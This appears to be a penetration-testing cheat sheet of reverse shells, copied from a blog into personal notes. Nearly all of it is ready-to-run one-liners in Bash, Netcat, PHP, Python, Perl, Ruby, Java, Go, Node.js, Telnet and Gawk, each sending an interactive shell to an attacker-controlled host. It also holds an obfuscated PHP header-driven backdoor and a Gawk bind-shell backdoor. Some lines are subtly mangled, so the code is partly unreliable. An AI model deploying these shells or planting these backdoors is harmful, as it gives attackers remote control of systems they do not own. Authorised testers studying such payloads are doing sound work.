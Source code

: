 Below are a collection of Windows and Linux **reverse shells** that use commonly installed programming languages PHP, Python, Powershell, nc (Netcat), JSP, Java, Bash, PowerShell (PS). At the bottom of the post are a collection of uploadable reverse shells, present in Kali Linux.

If you found this resource usefull you should also check out our [penetration testing tools](https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/) cheat sheet which has some additional reverse shells and other commands useful when performing penetration testing.

## Setup Listening Netcat
##### Set your Netcat listening shell on an allowed port
Use a port that is likely allowed via outbound firewall rules on the target network, e.g. 80 / 443

To setup a listening netcat instance, enter the following:

```bash
root@kali:~# nc -nvlp 80
nc: listening on :: 80 ...
nc: listening on 0.0.0.0 80 ...
```

##### NAT requires a port forward

If you're attacking machine is behing a NAT router, you'll need to setup a port forward to the attacking machines IP / Port.

**ATTACKING-IP** is the machine running your listening netcat session, port 80 is used in all examples below (for reasons mentioned above).

## Bash Reverse Shells[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#bash-reverse-shells)

```bash
exec /bin/bash 0&0 2>&0
```

```bash
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
```

```bash
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:

while read line 0<&5; do $line 2>&5 >&5; done
```

```bash
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
```

## socat Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#socat-reverse-shell)

Source: @filip_dragovic

```bash
socat tcp:ip:port exec:'bash -i' ,pty,stderr,setsid,sigint,sane &
```

## Golang Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#golang-reverse-shell)

```go
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","127.0.0.1:1337");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;http://cmd.Run();}'>/tmp/sh.go&&go run /tmp/sh.go
```

## PHP Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell)

A useful PHP reverse shell:

```bash
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
```

Another PHP reverse shell (that was submitted via Twitter):

```bash
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/443 0>&1'");?>
```

Base64 encoded by @0xInfection:

```
<?=$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
```

## Netcat Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#netcat-reverse-shell)

Useful netcat reverse shell examples:

Don't forget to start your listener, or you won't be catching any shells :)

```bash
nc -lnvp 80
```

```bash
nc -e /bin/sh ATTACKING-IP 80
```

```bash
/bin/sh | nc ATTACKING-IP 80
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

A reverse shell submitted by [@0xatul](https://twitter.com/atul_hax) which works well for OpenBSD netcat rather than GNU nc:

```bash
mkfifo /tmp/lol;nc ATTACKER-IP PORT 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```

## Node.js Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#nodejs-reverse-shell)

```bash
require('child_process').exec('bash -i >& /dev/tcp/10.0.0.1/80 0>&1');
```

Source: @jobertabma via @JaneScott

## Telnet Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#telnet-reverse-shell)

```bash
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```bash
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

Remember to listen on 443 on the attacking machine also.

## Perl Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#perl-reverse-shell)

```perl
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Perl Windows Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#perl-windows-reverse-shell)

```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

```perl
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#ruby-reverse-shell)

```ruby
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Java Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#java-reverse-shell)

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## Python Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#python-reverse-shell)

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Gawk Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#gawk-reverse-shell)

Gawk one liner rev shell by @dmfroberson:

```gawk
gawk 'BEGIN {P=4444;S="> ";H="192.168.1.100";V="/inet/tcp/0/"H"/"P;while(1){do{printf S|&V;V|&getline c;if(c){while((c|&getline)>0)print $0|&V;close(c)}}while(c!="exit")close(V)}}'
```

```gawk
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```

## Kali Web Shells[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#kali-web-shells)

The following shells exist within Kali Linux, under `/usr/share/webshells/` these are only useful if you are able to upload, inject or transfer the shell to the machine.

### Kali PHP Web Shells[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#kali-php-web-shells)

Kali PHP reverse shells and command shells:

![[Pasted image 20230409000539.png]]
##### Tip: Executing Reverse Shells
The last two shells above are not reverse shells, however they can be useful for executing a reverse shell.


### Kali Perl Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#kali-perl-reverse-shell)

Kali perl reverse shell:

![[Pasted image 20230409000648.png]]

### Kali Cold Fusion Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#kali-cold-fusion-shell)

Kali Coldfusion Shell:

![[Pasted image 20230409000712.png]]

### Kali ASP Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#kali-asp-shell)

Classic ASP Reverse Shell + CMD shells:

![[Pasted image 20230409000738.png]]

### Kali ASPX Shells[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#kali-aspx-shells)

ASP.NET reverse shells within Kali:

![[Pasted image 20230409000803.png]]

### Kali JSP Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#kali-jsp-reverse-shell)

Kali JSP Reverse Shell:

![[Pasted image 20230409000820.png]]